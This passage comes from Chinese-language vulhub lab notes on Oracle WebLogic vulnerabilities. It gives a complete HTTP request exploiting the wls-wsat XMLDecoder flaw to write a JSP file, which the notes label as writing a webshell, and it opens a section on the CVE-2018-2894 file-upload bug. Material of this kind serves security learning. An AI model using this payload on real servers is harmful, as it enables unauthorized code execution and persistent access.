 **写入webshell（访问：`http://your-ip:7001/bea_wls_internal/test.jsp`）：**

~~~http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.146:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
~~~

**成功写入文件内容：**![image-20220601182633385](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220601182633385.png)

### 工具直接利用

![image-20220601182825563](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220601182825563.png)



## Weblogic 任意文件上传漏洞（CVE-2018-2894）

Oracle在7月份更新中，修复了WebLogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page在生产模式下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

### 漏洞环境

执行如下命令，启动weblogic 12.2.1.3：

```
docker-compose up -d
```

